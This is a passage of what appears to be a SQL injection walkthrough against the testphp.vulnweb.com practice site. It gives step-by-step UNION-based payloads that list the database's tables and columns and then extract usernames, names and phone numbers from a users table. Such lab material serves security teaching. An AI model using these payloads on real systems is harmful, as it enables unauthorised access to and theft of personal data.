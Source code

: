 
### Get All Database Table Names

The SQL command: 

`union select 1,2,group_concat(table_name) from information_schema.tables where table_schema= database()--`

Tricking the Web app to execute the command: 

`http://testphp.vulnweb.com/artists.php?artist=-2 
union select 1,2,group_concat(table_name) from information_schema.tables where table_schema= database()--`

You'll see from this command that there is a database table called `users` that we can try to gather information from.

### Get All Database Column Names

The SQL command: 

`union select 1,2,group_concat(column_name) from information_schema.columns`

Tricking the Web app to execute the command: 

`http://testphp.vulnweb.com/artists.php?artist=-2 
union select 1,2,group_concat(column_name) from information_schema.columns`

You'll see from this command that there is are columns in the `users` table called `uname`,`cc`,`pass` and so on. These likely contain sensitive user data.

## Get Username of Artist #2

The SQL command: 

`union select 1,2,group_concat(uname) from users --`

Tricking the Web app to execute the command: 

`http://testphp.vulnweb.com/artists.php?artist=-2 
union select 1,2,group_concat(uname) from users --`

## Get Name of Artist #2

The SQL command: 

`union select 1,2,group_concat(name) from users --`

Tricking the Web app to execute the command: 

`http://testphp.vulnweb.com/artists.php?artist=-2 
union select 1,2,group_concat(name) from users --`

## Get Phone Number for Artist #2

The SQL command: 

`union select 1,2,group_concat(phone) from users --`
